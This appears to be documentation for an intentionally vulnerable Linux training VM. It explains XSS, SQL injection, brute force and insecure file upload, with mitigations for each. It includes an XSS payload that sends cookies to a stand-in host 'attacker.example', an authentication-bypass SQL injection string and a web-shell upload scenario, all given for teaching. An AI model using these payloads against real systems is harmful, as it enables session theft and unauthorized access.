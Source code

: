 # Linux VM Vulnerabilities

This document highlights the deliberate vulnerabilities included in the Linux target VM. Each vulnerability is presented with a clear description, educational purpose, real-world relevance, and an example demonstrating the practical impact.

---

## Cross-Site Scripting (XSS)

**Description:**
**Cross-Site Scripting (XSS)** occurs when an application includes untrusted user input in pages sent to other users without proper validation or output encoding. Attackers inject client-side code (usually **JavaScript**) that the victim’s browser executes in the context of the site. Because the code runs in users’ browsers, XSS can steal session tokens, perform actions on behalf of users, show spoofed UI, or be chained with other vulnerabilities to increase impact.

**Educational Purpose:**
Students will exploit stored, reflected, and DOM-based XSS in controlled exercises to learn how payloads execute in victims’ browsers, how data (cookies, `localStorage`, form values) can be exfiltrated, and how to defend against these attacks. Exercises emphasise **output encoding**, **input validation**, **CSP**, cookie flags, and secure client-side scripting patterns.

**Real-World Relevance:**
XSS is a persistent and common web vulnerability (historically in the OWASP Top 10). Although it primarily targets site users rather than the server itself, successful XSS attacks lead to **account takeover**, credential theft, phishing at scale, and automated worms that propagate across social platforms. Understanding XSS is essential for securing any web application that accepts user content.

**Example:**
A comment field accepts and renders HTML without encoding. An attacker posts the following payload:

```html
<script>fetch('[https://attacker.example/steal?c='+encodeURIComponent(document.cookie](https://attacker.example/steal?c='+encodeURIComponent(document.cookie)))</script>
```
When other users view the comment, their browsers execute the script and send session cookies to the attacker, enabling account hijacking or unauthorized actions using the victim’s session.

**Mitigations (brief):**

* Output-encode all untrusted data according to context (HTML, attribute, JS, URL).
* Use templating engines that auto-escape and avoid direct `innerHTML`/`document.write`.
* Implement a strict Content Security Policy (CSP) and enable `HttpOnly`/`Secure` on cookies.
* Validate and normalise input, and whitelist acceptable content (e.g., HTML sanitiser for allowed tags).
* Test with automated scanners and manual DOM inspection.

---

## SQL Injection

**Description:**
SQL Injection happens when untrusted input is interpolated into database queries, allowing attackers to alter the query logic and read, modify, or delete data. This includes classic inline SQL concatenation as well as malformed parameters that change control flow.

**Educational Purpose:**
Students will craft injection strings to enumerate databases, bypass authentication, and extract sensitive tables. Labs teach defensive coding: **prepared statements**, ORM parameterisation, input validation, least privilege database accounts, and proper error handling to avoid information leakage.

**Real-World Relevance:**
SQL injection remains one of the most damaging web vulnerabilities because it directly targets **data stores**. Successful exploits have led to large breaches, theft of personal and financial data, and **full system compromise** when combined with escalated privileges. Knowing both offensive and defensive aspects is critical for secure development and auditing.

**Example:**
A login field is concatenated into a SQL query:

```sql
SELECT * FROM users WHERE username = 'posted_username' AND password = 'posted_password';
```
An attacker submits `posted_username = ' OR '1'='1` to force the `WHERE` clause true and bypass authentication, or uses `UNION` queries to dump table contents.

**Mitigations (brief):**

* Use parameterised queries / prepared statements or ORM with safe binding.
* Restrict DB user privileges to the minimum required.
* Avoid detailed SQL error messages in production.
* Employ input validation and length/type checks.
* Apply database activity monitoring and regular code reviews.

---

## Brute Force Attack

**Description:**
Brute force attacks systematically try many password combinations, dictionary words, or credential permutations to gain unauthorized access. They can be targeted (single account) or broad (**credential stuffing** across many accounts using leaked credentials).

**Educational Purpose:**
Students will perform controlled credential guessing against intentionally weak accounts to observe attack patterns and the effectiveness of mitigations such as **rate-limiting**, **account lockouts**, and **multi-factor authentication (MFA)**. The exercises also cover monitoring and alerting practices.

**Real-World Relevance:**
Weak, reused, or default credentials are a top cause of initial compromise. Credential stuffing (using lists of breached username/password pairs) and automated SSH/FTP sweeps lead to ransomware, data exfiltration, and **lateral movement** when attackers succeed. Enterprises must harden authentication and detect anomalous login behaviour.

**Example:**
An attacker uses an automated tool to try thousands of common passwords against an SSH service. If an account uses `password123`, the attacker can gain shell access and then escalate from there.

**Mitigations (brief):**

* Enforce strong password policies and MFA.
* Implement rate-limiting, exponential backoff, and temporary lockouts.
* Disable or rename default accounts and remove unused services.
* Use IP blocking/geo-restrictions and monitor failed login spikes.
* Implement credential hygiene and encourage password managers.

---

## File Upload Vulnerability

**Description:**
Insecure file upload mechanisms allow attackers to upload executable or otherwise harmful files to a server. Problems include trusting MIME types, allowing dangerous extensions, insufficient content scanning, or storing uploads inside the web root.

**Educational Purpose:**
Students will test upload handlers, attempt to upload **web shells**, and observe how server configuration and validation steps prevent or allow **remote code execution**. Labs highlight secure storage, content inspection, and policy enforcement.

**Real-World Relevance:**
Many compromises begin with an uploaded web shell or malicious artefact. CMS platforms and bespoke apps that allow media or plugin uploads have been used to plant **backdoors**, distribute malware, or pivot across networks. Defending upload surfaces is a practical necessity for web security.

**Example:**
An attacker uploads `shell.php` to an image upload endpoint that incorrectly validates only the filename. They then access `https://site/uploads/shell.php` to run arbitrary commands on the server and obtain a persistent foothold.

**Mitigations (brief):**

* Enforce strict extension and MIME type whitelists and validate file contents (magic bytes).
* Rename and store uploads outside the web root; serve via a proxy if needed.
* Limit file sizes and scan uploads with antivirus/AV engines.
* Apply least privilege to storage accounts and avoid executing uploaded files.
* Log and monitor upload activity; require authentication for sensitive upload endpoints.

---

## Key Takeaways

* Always validate and sanitise user inputs according to expected context — server-side is authoritative.
* Use context-aware output encoding (HTML, attribute, JS, URL) and safe templating.
* Prefer parameterised queries / prepared statements and least-privilege DB users.
* Enforce strong authentication, rate-limiting, and MFA; monitor for credential abuse.
* Restrict upload types, verify file contents, store uploads safely, and scan for malware.
* Implement security headers (CSP, X-Content-Type-Options), use `HttpOnly`/`Secure` cookies, and enable robust logging and alerting.
* Regularly test with both automated scanners and manual review — think like an attacker to build better defences.
